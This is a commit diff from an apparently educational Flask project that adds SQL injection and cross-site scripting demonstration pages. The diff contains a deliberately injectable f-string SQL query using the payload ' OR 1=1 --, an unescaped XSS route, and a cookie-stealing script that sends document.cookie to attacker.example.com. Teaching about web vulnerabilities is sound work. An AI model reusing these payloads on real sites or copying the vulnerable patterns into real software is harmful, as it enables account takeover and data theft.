

Before and after one commit to MichaelKaspler/WebSecurityProject, a Flask app: page / in a window 1280 px wide. Run offline with Flask 3, Linux system fonts and the light colour scheme; a user stored in the database is signed in; data comes from the database, SQL or seed files in the repository; both versions use the stored data as it was after the commit; parts of the project's set-up code (start-up, migrations or seed data) failed here and were passed over.

Commit message:
added links for sql injection demo and xss demo

```diff
--- a/app.py
+++ b/app.py
@@ -1,6 +1,6 @@
 import sqlite3
 from flask import Flask, render_template, request, redirect, url_for, flash, session
-from werkzeug.security import generate_password_hash, check_password_hash
+from werkzeug import security
 import os
 import re
 from config import PASSWORD_CONFIG, PASSWORD_ERROR_MESSAGES
@@ -101,7 +101,7 @@
         user = conn.execute('SELECT * FROM users WHERE username = ?', (username,)).fetchone()
         conn.close()
 
-        if user and check_password_hash(user['password'], password):
+        if user and security.check_password_hash(user['password'], password):
             # Store user ID in session
             session.clear()
             session['user_id'] = user['id']
@@ -142,7 +142,7 @@
             return render_template('register.html')
 
         # Hash the password for security
-        hashed_password = generate_password_hash(password)
+        hashed_password = security.generate_password_hash(password)
 
         # Insert new user into database
         conn.execute('INSERT INTO users (username, email, password) VALUES (?, ?, ?)',
@@ -209,9 +209,72 @@
     else:
         print("SQL Injection failed.")
 
+@app.route('/sql_injection_demo')
+def sql_injection_route():
+    """Route to demonstrate SQL injection"""
+    results = []
+    conn = sqlite3.connect('database.db')
+    cursor = conn.cursor()
+
+    # The injected payload in the password field
+    username = ""
+    password = "' OR 1=1 --"
+
+    # Vulnerable query
+    query = f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"
+    cursor.execute(query)
+    users = cursor.fetchall()
+    conn.close()
+
+    # Format users for display
+    for user in users:
+        results.append(dict(zip([column[0] for column in cursor.description], user)))
+
+    return render_template('sql_injection_demo.html', query=query, results=results)
+
+def generate_xss_payload():
+    """Generate a simple XSS payload for demonstration"""
+    # Basic XSS payload that displays an alert
+    basic_alert = "<script>alert('XSS Attack Successful!');</script>"
+
+    # More complex payload that steals cookies
+    cookie_stealer = "<script>fetch('https://attacker.example.com/steal?cookie='+document.cookie);</script>"
+
+    # DOM manipulation payload
+    dom_manipulator = "<script>document.body.style.backgroundColor='red'; document.body.innerHTML='<h1>Site Hacked!</h1>';</script>"
+
+    return {
+        "basic_alert": basic_alert,
+        "cookie_stealer": cookie_stealer,
+        "dom_manipulator": dom_manipulator
+    }
+
+@app.route('/xss_demo')
+def xss_demo():
+    """Route to demonstrate XSS vulnerabilities"""
+    # Get name from query parameter (vulnerable to XSS)
+    name = request.args.get('name', '')
+
+    # Generate sample payloads
+    payloads = generate_xss_payload()
+
+    # Create examples of vulnerable code patterns
+    vulnerable_code = {
+        "direct_output": "app.route('/vulnerable')\ndef vulnerable():\n    name = request.args.get('name')\n    return f'<h1>Hello, {name}!</h1>'",
+        "innerHTML": "document.getElementById('username').innerHTML = userName; // userName is user-controlled",
+        "eval_usage": "eval('console.log(\"Welcome, ' + userName + '!\")'); // userName is user-controlled"
+    }
+    print(payloads)
+    # Return a template that will render the name parameter without escaping
+    return render_template('xss_demo.html',
+                          name=name,
+                          payloads=payloads,
+                          vulnerable_code=vulnerable_code,
+                          example_url=request.host_url + "xss_demo?name=" + payloads["basic_alert"])
+
 if __name__ == '__main__':
     # Initialize the database
     init_db()
+
     # Run the application on port 5000
     app.run(debug=True, port=5000)
-    sql_injection_dump_users()
--- a/templates/home.html
+++ b/templates/home.html
@@ -1,8 +1,29 @@
 {% extends 'base.html' %}
 
 {% block content %}
-<div class="welcome">
-    <h2>Welcome, {{ username }}!</h2>
-    <p>You have successfully logged in.</p>
+<div class="container mt-4">
+    <div class="welcome">
+        <h2>Welcome, {{ username }}!</h2>
+        <p>You have successfully logged in.</p>
+    </div>
+
+    <div class="card mt-4">
+        <div class="card-header bg-warning text-dark">
+            Security Vulnerability Demonstrations
+        </div>
+        <div class="card-body">
+            <p class="text-danger">Warning: These demonstrations show common web security vulnerabilities.</p>
+            <div class="list-group">
+                <a href="{{ url_for('sql_injection_route') }}" class="list-group-item list-group-item-action">
+                    <h5>SQL Injection Demo</h5>
+                    <p class="mb-1">See how SQL injection can expose your database.</p>
+                </a>
+                <a href="{{ url_for('xss_demo') }}" class="list-group-item list-group-item-action">
+                    <h5>Cross-Site Scripting (XSS) Demo</h5>
+                    <p class="mb-1">See how XSS can be used to execute malicious JavaScript.</p>
+                </a>
+            </div>
+        </div>
+    </div>
 </div>
 {% endblock %}
```
Also changed, not shown: templates/sql_injection_demo.html (added, +45 -0 lines), templates/xss_demo.html (added, +78 -0 lines), database.db.
